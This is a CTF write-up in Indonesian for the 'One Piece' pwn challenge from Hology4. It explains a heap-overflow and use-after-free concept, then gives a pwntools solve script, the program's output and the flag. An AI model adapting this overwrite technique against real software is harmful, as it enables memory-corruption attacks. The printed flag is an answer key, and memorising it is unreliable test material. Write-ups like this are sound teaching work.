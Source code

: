 ## One Piece (309 Pts)

- [One Piece](#one-piece)
- [Deskripsi](#deskripsi)
- [Konsep soal](#konsep-soal)
- [HINT](#hint)
- [Proof of Concept](#proof-of-concept)
- [Refrensi](#refrensi)

## Deskripsi
Temukan One Piece dan jadilah Raja Bajak Laut

Author : **Dolf7**

Format Flag : Hology4{}

## Konsep soal
- Heap Overflow
- Use-After-Free
  

Untuk mendapat flag peserta harus dapat mengoverwrite suate variable. variable akan mempoint ke heap tapi sebelummnya heap sudah di penuhi oleh variable varible lain. Sehingga untuk dapat mengoverwite suatu variable yang dituju perlu mem-'free' heap yang ada. dan melakukan overwrite tsb.
   

## HINT
1. Marijoa terletak di Redline yang sangat tinggi. Bebaskan yang tertahan disana.
2. Yang pertama akan sangat membantu.


## Proof of Concept
```
#!usr/bin/env python3
from pwn import *
p = process('./onepiece')

elf = ELF('onepiece')
#x = 0x6f726f7a
x = b'zoro'
buff = b'a'*80
#payload = buff + p64(x)
payload = buff + x

p.sendline(b'1')
p.sendline(b'3')
p.sendline(b'6')
#p.recvuntil("ada berapa red poneglyph?")
p.sendline(b'4')
p.sendline(b'7')
p.sendline(b'8')
p.sendline(payload)
p.sendline(b'9')
p.interactive()
```

ouput :
```
$ python3 solve.py 
[+] Starting local process './onepiece': pid 13792
[*] '/home/dolf/Documents/POROS/Hology4/onepiece/onepiece'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
Cari Road poneglyph dan temukan One Piece

1. Saobaody
2. Fishaman Island
3. New World
4. Punk Hazard
5. Dressrosa
6. Zou
7. Whole Cake Island (wci)
8. Wano Kuni
9. Laugh_tale
Datang Pertama : zoro
1. Saobaody
2. Fishaman Island
3. New World
4. Punk Hazard
5. Dressrosa
6. Zou
7. Whole Cake Island (wci)
8. Wano Kuni
9. Laugh_tale
Welcome to new World

1. Saobaody
2. Fishaman Island
3. New World
4. Punk Hazard
5. Dressrosa
6. Zou
7. Whole Cake Island (wci)
8. Wano Kuni
9. Laugh_tale
ada berapa red poneglyph?
Okay

1. Saobaody
2. Fishaman Island
3. New World
4. Punk Hazard
5. Dressrosa
6. Zou
7. Whole Cake Island (wci)
8. Wano Kuni
9. Laugh_tale
tankman & snakeman

1. Saobaody
2. Fishaman Island
3. New World
4. Punk Hazard
5. Dressrosa
6. Zou
7. Whole Cake Island (wci)
8. Wano Kuni
9. Laugh_tale
Ryuo beats dragon
btw, apa arc setelah wano??

1. Saobaody
2. Fishaman Island
3. New World
4. Punk Hazard
5. Dressrosa
6. Zou
7. Whole Cake Island (wci)
8. Wano Kuni
9. Laugh_tale
Kamu menemukannya, Raja Bajak Laut, 
hology4{0ne_Piece_1s_Rea1}

```

Flag : hology4{0ne_Piece_1s_Rea1}

## Refrensi
Tidak ada
